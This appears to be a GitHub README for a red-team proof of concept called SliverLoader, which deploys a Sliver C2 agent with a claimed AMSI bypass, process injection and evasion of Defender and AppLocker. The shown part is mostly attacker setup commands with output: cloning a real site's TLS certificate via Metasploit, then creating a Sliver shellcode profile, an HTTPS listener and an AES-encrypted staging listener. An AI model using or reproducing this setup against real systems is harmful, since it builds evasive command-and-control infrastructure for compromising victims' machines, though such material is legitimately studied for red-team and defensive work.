

# SliverLoader

This proof of concept (PoC) utilizes a DLL and a PowerShell loader to deploy a Sliver Agent, incorporating AMSI bypass, process injection, hollowing, and operational security (OpSec) through an impersonated SSL certificate. The shellcode runner is implemented in C# using the .NET Framework 4.0, which is typically pre-installed on Windows 10 and newer systems, and is also available on many updated legacy systems. Execution is facilitated via PowerShell. The PoC aims to bypass defenses including Windows Defender, AMSI, PowerShell Constrained Language Mode, and AppLocker. Additionally, the runner employs HTTPS protocol utilizing custom SSL certificates and keys for staging, and employs AES encryption to further obfuscate the shellcode, enhancing security layers.

## SSL Certificate

To encrypt the traffic, a self-signed certificate is used, which fetches information from a specified URL to make the certificate appear more legitimate. There is a module created by Chris John Riley called **impersonate_ssl** that generates a certificate based on the information it gathers from the certificate of a website specified in the module's RHOST parameter.
```text
msf6 > use auxiliary/gather/impersonate_ssl
msf6 auxiliary(gather/impersonate_ssl) > set RHOST www.google.com
RHOST => www.google.com
msf6 auxiliary(gather/impersonate_ssl) > run
[*] Running module against 172.217.21.164

[*] 172.217.21.164:443 - Connecting to 172.217.21.164:443
[*] 172.217.21.164:443 - Copying certificate from 172.217.21.164:443
/OU=No SNI provided; please fix your client./CN=invalid2.invalid
[*] 172.217.21.164:443 - Beginning export of certificate files
[*] 172.217.21.164:443 - Creating looted key/crt/pem files for 172.217.21.164:443
[+] 172.217.21.164:443 - key: /home/dudu/.msf4/loot/20240703202206_default_172.217.21.164_172.217.21.164_k_267041.key
[+] 172.217.21.164:443 - crt: /home/dudu/.msf4/loot/20240703202206_default_172.217.21.164_172.217.21.164_c_797072.crt
[+] 172.217.21.164:443 - pem: /home/dudu/.msf4/loot/20240703202206_default_172.217.21.164_172.217.21.164_p_382037.pem
```
For further handling, the certificate is copied to `/tmp/certs/` as `crt.crt`, `pem.pem` and `key.key`.

## Sliver C2 Setup

The chosen Command and Control (C2) framework is [Sliver](https://github.com/BishopFox/sliver) developed by BishopFox, although the concept is adaptable to other frameworks such as Metasploit or Havoc. Follow the installation instructions provided on the [Getting Started](https://sliver.sh/docs?name=Getting+Started) page of Sliver's wiki to set it up.

The next steps involve setting up the necessary profile, listener, and stage-listener. It is noted that the IP addresses and paths to assets, such as certificates, need to be adjusted to fit the specific environment.

1. Create a reusable profile for the scenario
```text
sliver > profiles new -b https://192.168.8.205:443 --skip-symbols --format shellcode --arch amd64 monkeybox
```
2. Start the listener with the same port as specified in the profile and the certificate and key generated from metasploit
```text
https -L 192.168.8.205 -l 443 -c /tmp/certs/crt.crt -k /tmp/certs/key.key
```
3. Start the stageing server on port 8443 with the HTTPS protocol and the generated certificates. Additional, the the compression algorithm in addition to the AES Encryption Keys has to be passed to the command.
```text
sliver > stage-listener --url https://192.168.8.205:8443 --profile monkeybox -c ~/Code/certs/crt.crt -k ~/Code/certs/key.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV
```
4. To confirm that our listeners are running , run the jobs command
```text
sliver > jobs
```


